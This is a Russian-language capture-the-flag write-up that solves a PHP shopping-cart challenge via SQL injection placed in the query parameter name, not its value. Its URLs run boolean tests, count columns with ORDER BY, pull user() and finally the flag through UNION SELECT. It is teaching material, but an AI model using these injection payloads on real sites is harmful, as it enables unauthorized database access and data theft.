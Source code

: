 # Chernihiv (2.owaspctf.gq)

На главной странице видим листинг товаров и сообщение о том что это интернет-магазин.
Погуглив можно даже найти исходники этого интернет магазина: (https://github.com/rintoug/Simple-PHP-Shopping-Cart)

Отличие только в том что в оригинальном shopping-cart.php нет поиска по товарам.
Запрос для поиска `http://2.owaspctf.gq/shopping-card.php?name=i`
выводит список товаров в имени которых есть символ `i`.

По [create-products.sql](https://github.com/rintoug/Simple-PHP-Shopping-Cart/blob/master/create-products.sql)
(этот файл есть и на 2.owaspctf.gq) видим имена полей в таблице `products`.

Другой вариант "угадать" имя еще какого-нибудь поля это посмотреть на имя параметра при добавлении/удалении товара
из корзины, а именно `sku`.

Пробуем `http://2.owaspctf.gq/shopping-card.php?sku=IPHO` и нам выводится только `Iphone`.

Получается SQL инъекция в имени поля, а не в значении. Проверяем:

```
http://2.owaspctf.gq/shopping-card.php?1=1 => Все товары
http://2.owaspctf.gq/shopping-card.php?1=2 => 0 товаров
```

Уже известно сколько полей в таблице, но можно проверить через order by:

```
http://2.owaspctf.gq/shopping-cart.php?1+order+by+6%23=1 => Fatal error
http://2.owaspctf.gq/shopping-cart.php?1+order+by+5%23=1 => Все товары
```

5 полей. Достаем имя пользователя:

```
http://2.owaspctf.gq/shopping-cart.php?1+like+0+union+select+1,2,3,4,user()%23=1

<img src="not_brutforsable_user@master_2.owaspctf.gq_1.master_default"
```

Через information_schema.tables|columns узнаем что кроме `products` есть таблица `ctf` с единственным полем `flag`

Финальный запрос: `http://2.owaspctf.gq/shopping-cart.php?1+like+0+union+select+1+,2,3,4,(select+flag+from+ctf)%23=1`

`FLAG{PRUF_FOR_ALL_THAT_I_AM_HACKER}`
